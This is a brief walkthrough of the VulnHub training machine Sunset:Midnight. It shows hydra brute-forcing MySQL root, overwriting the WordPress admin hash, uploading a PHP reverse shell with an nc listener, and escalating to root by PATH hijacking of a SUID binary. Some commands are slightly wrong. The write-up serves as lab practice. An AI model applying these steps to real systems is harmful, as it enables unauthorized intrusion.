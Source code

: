 


# Sunset:Midnight Walkthrough 

**VulnHub Link:** [Sunset:Midnight](https://www.vulnhub.com/entry/sunset-midnight,517/)
**Difficulty:** Easy
**Release Date:** 19 Jul 2020


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.153


## 2.Web Enumeration

whatweb http://192.168.100.153


sudo echo "192.168.100.153    sunset-mignight" > /etc/hosts

## 3.Brute Forcing

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.100.153 -I
```

robert found

```bash
mysql -h 192.168.100.153 -u root -p
```

we saw that we cant crack hashes of wp_users who is admin
we generate a hash from hash generator websites

and then ---->
```bash
use wordpress_db;
update wp_users password="<hash>" where user='admin';
```

we can login to wordpress site which we generate before 

we upload reverse_shell.php in plugins page

then open /wp-content/uploads/2025/reverse_shell.php

Warning: listen before executing shell payload ..!
```bash
rlwrap nc -nvlp 1234
```

then we got www-data shell.

in /var/www/html/wordpress/wp-config.php , we got jose password

after gaining jose shell

## 4.Privilege Escalation

```bash
find / -perm /4000 2>/dev/null
```

we observe that /usr/bin/status has suid byte

```bash
strings /usr/bin/status
echo "/bin/sh" > /tmp/service
chmod +x /tmp/service
export PATH=/tmp:$PATH
/usr/bin/status
```

and BINGO ..! We got ROOT shell Successfully....!

```

